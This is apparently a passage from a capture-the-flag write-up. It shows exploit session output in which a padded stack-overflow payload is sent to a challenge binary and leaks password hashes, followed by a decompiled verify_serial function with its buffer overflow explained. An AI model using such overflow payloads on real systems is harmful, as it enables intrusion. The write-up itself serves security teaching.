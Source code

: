 >   ( (
>    ) )
>  ........
>  |      |]
>  \      /
>   `----'
>
>Your choice: 3 GAME?/tmp/password.
>[?] Number of trust bytes?
>5 AAAAAAAAAAAAAAAAAAAAAAAAAA.N..<P......@...PP..<P...........Q..;P..................<P..............<P..............<P..............<P......
>.......<P..............<P..............<P..............<P..............<P..............<P..............<P..............<P..............<P...........s..
>[i] Okay, 5 bytes coming up
>38fd30d7441a1bd1490a2ba91f0e4a73495640d7
>[i] Okay, 7 bytes coming up
>7b4ceb50c1bb181033dc4dd0080b1ddc98b46f29
>[i] Okay, 9 bytes coming up
>66702342d69133a92d303edc497115642aa995f8
>[i] Okay, 11 bytes coming up
>3c5008ab11ce269c2412536e53008aabf7246a4e
>[i] Okay, 13 bytes coming up
>8f466d257e3cc71b0a2b355fa0bb1e16a8aa5ead
>[i] Okay, 15 bytes coming up
>c18428c4ac0295f605acd953d0c0490a4b22a51c
>[i] Okay, 17 bytes coming up
>38ada7dc4355a76351affe64657450d347e10349
>[i] Okay, 19 bytes coming up
>ffe4582900b994a3863d96775fd1964c80fa6392
>[i] Okay, 21 bytes coming up
>cf0fdb641b0df6ec6231efc142891c92986178dc
>[i] Okay, 23 bytes coming up
>c5f6aba5c5ddb6fc30aa1a20a96dac5cc6a88677
>[i] Okay, 25 bytes coming up
>16ed8ef5a657bc26bfeeaa4a30bed8b76a128c4e
>[i] Okay, 27 bytes coming up
>16d5826bebc39b70b9e12529d50fef09c938d001
>[i] Okay, 29 bytes coming up
>43cdb8c07847f1087da7e611125afc1ffa801ad9
>[i] Okay, 31 bytes coming up
>0fe5cf679ef26ab27b1e5bbb6b4176d67e4c154e
>```

Option number 3 ("Verify serial integrity" which calls verify_serial) usually only displays a single hash of up to at most 15 bytes of the hardcoded password (which is "EX3825AQ3E8F5CD" in our case). But if we look closely at that function we can see it's vulnerable to a trivial stack overflow:

>```c
>int verify_serial()
>{
>  int to_read; // eax@1
>  int read_byte_count; // edx@1
>  char v3; // [sp+10h] [bp-1Ch]@1 28-byte buffer
>
>  output_str((int)"[?] Number of trust bytes?");
>  to_read = read_buffer((int)&v3, 2048);        
>  read_byte_count = 0xF;
>  if ( (unsigned int)to_read <= 0xF )
>    read_byte_count = to_read;
>  return disclose_bytes((int)"EX3825AQ3E8F5CD", read_byte_count);
>}
>```

